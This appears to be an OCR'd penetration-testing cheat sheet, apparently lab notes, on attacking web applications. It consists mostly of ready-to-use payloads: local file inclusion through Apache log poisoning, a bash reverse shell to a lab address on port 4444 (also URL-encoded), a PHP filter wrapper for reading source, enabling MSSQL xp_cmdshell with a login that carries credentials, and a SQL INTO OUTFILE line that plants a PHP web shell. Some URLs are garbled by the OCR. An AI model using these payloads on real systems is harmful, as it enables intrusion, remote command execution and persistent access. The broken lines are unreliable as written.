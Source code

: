 **Wordpress**

Simple exploit: [https://github.com/leonjza/wordpress-shell](https://github.com/leonjza/wordpress-shell) Local

#### Local File Inclusion

* Main difference between Directory traversal and this attack is, here we're able to execute commands remotely.

At first we need to check if we can include log files

```
[http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.lo<br>#Reverse?page=/var/log/apache2/access.log&cmd=whoami](http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.lo<br>#Reverse?page=/var/log/apache2/access.log&cmd=whoami)
```

If RCE via LFI is possible then we can put reverse shells

```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22  #encoded
```

**PHP wrapper**

```bash
curl "[http://mountaindesserts.com/meteor/index.php?page=data://text/plain?page=php://filter/convert.base64-encode/resource=index.php](http://mountaindesserts.com/meteor/index.php?page=data://text/plain?page=php://filter/convert.base64-encode/resource=index.php)"
```

#### SQL Injection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth  #To login
```

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Now we can run commands
EXECUTE xp_cmdshell 'whoami';
```

Sometimes we may not have direct access to convert it to RCE from web, then follow below

```sql
UNION SELECT "<?php system($_GET['cmd']); ?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php"
```
